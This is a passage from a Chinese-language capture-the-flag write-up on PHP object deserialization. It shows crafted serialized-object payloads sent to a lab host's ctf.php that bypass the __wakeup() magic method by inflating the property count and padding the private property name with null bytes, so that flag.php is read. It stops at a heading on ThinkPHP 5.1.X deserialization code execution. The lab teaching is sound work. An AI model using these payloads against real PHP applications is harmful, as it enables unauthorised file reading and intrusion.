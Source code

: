 执行 POC `test.php` 获取字符串

```
[root@CentOS-76 ~]# php test.php
```

```php
O:6:"xuegod":1:{s:12:"xuegodfile";s:8:"flag.php";}
```

> 得到 `flag.php` 的序列化字符串

浏览器访问

>http://192.168.1.76/ctf/ctf.php

构造一个 payload 使 `$file='flag.php';`

```
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":1:{s:12:"xuegodfile";s:8:"flag.php";}
```

由于存在

```php
function __wakeup(){
$this->file='ctf.php';
```

> 这个魔术方法会使 `flag.php` 变回 `ctf.php`
>
> 因此要绕过 `__wakeup()`

修改 payload 的属性的数量为 2（其实只有一个属性）导致异常，绕过 `__wakeup()`

```php
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":2:{s:12:"xuegodfile";s:8:"flag.php";}
```

> 魔术方法不触发，但是代码依然执行
>
> 提交以上 payload 失败

分析 payload ，发现属性 `xuegodfile` 的长度为 12 ，实际只有 10，因此要在 `xuegodfile` 增加两个空白字符 `%00`

构造 payload

```php
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":2:{s:12:"%00xuegod%00file";s:8:"flag.php";}
```

> 注意添加的位置，要在 `xuegod` 两端加

提交 payload

> 成功读取到 `flag.php`

或者用 `\00` ，此时的 `s` 要大写 `S`，表示为二进制

```php
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":2:{S:12:"\00xuegod\00file";s:8:"flag.php";}
```

# 4 ThinkPHP 5.1.X 反序列化任意代码执行

